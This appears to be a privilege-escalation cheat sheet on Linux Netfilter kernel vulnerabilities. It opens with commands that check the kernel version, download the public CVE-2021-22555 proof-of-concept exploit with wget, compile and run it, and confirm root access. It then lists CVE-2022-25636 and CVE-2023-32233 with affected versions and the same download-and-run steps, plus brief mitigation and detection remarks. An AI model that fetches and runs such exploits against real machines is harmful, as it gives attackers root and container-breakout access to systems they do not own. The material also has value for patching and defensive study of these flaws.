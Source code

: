 
### Check kernel version
```bash
uname -r
```

### Download exploit
```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
```

### Compile exploit (32-bit)
```bash
gcc -m32 -static exploit.c -o exploit
```

### Run exploit
```bash
./exploit
```

### Verify root access
```bash
id
whoami
```



# **Key Concepts:**

- **Netfilter:**
    - Linux kernel framework for packet filtering, NAT, etc.
    - Core component of Linux firewalls.
- **iptables/nftables:**
    - User-space tools for managing Netfilter rules.
- **Vulnerabilities:**
    - Various vulnerabilities have been found in Netfilter, leading to privilege escalation.
    - **Use-After-Free:** A common type of vulnerability, where a program attempts to use memory after it has been freed.
    - **Out-of-bounds write:** A memory safety violation where a program writes data beyond the allocated buffer.

**Vulnerabilities and Exploitation:**

1. **CVE-2021-22555:**
    - Affected kernel versions: 2.6 - 5.11.
    - Exploitation:
        - Download and compile the exploit.
        - Run the exploit.
    - Mitigation: Update the kernel.
2. **CVE-2022-25636:**
    - Affected kernel versions: 5.4 - 5.6.10.
    - Exploitation:
        - Download and compile the exploit.
        - Run the exploit.
        - Warning: This exploit can cause system instability.
    - Mitigation: Update the kernel.
3. **CVE-2023-32233:**
    - Affected kernel versions: up to 6.3.1.
    - Exploits anonymous sets in nftables.
    - Exploitation:
        - Download and compile the exploit.
        - Run the exploit.
    - Mitigation: Update the kernel.

**Important Considerations and Enhancements:**

- **Vulnerability Severity:**
    - These vulnerabilities are critical.
    - They allow local privilege escalation.
- **Patching:**
    - Kernel updates are essential.
- **Exploit Reliability:**
    - Exploits can be unstable.
    - System instability or crashes may occur.
- **Real-World Scenarios:**
    - Emphasize the risks in production environments.
    - Older, unpatched systems are highly vulnerable.
- **Container Security:**
    - Highlight the importance of kernel security in containerized environments.
    - Container breakout is possible if the host kernel is vulnerable.
- **Detection:**
    - Monitor for suspicious Netfilter activity.
    - Use intrusion detection systems.
- **Kernel versions:** Always make sure the exploit is compatible with the target kernel.
- **Netfilter deep dive:** More information could be provided about the inner workings of netfilter.
